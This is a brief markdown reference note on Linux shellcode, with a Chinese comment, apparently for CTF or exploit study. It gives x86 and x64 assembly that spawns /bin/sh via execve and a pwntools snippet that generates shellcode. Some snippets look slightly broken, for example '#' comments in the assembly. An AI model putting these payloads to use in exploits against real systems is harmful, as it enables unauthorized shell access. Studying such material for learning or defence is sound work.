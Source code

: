# Shellcode

```asm
# linux/x86 execve("/bin/sh", 0, 0)
global _start
_start:
    push "/sh"
    push "/bin"
    mov  ebx, esp ;; pathname = "/bin/sh"
    xor  edx, edx ;; argv = 0
    xor  ecx, ecx ;; envp = 0
    mov  al, 0xb  ;; execve
    int  0x80     ;; syscall
```

```asm
# linux/x64 execve("/bin/sh", 0, 0)
global _start
_start:    
    mov  rbx, "/bin/sh"
    push rbx
    push rsp
    pop  rdi
    xor  esi, esi
    xor  edx, edx
    push 0x3b
    pop  rax
    syscall
```

可以利用 pwntools 来生成特定架构和系统的 shellcode.  

```py
from pwn import*
context(log_level = 'debug', arch = 'i386', os = 'linux') # linux/x86
shellcode = asm(shellcraft.sh())
```

## 拓展

- <http://shell-storm.org/shellcode/>
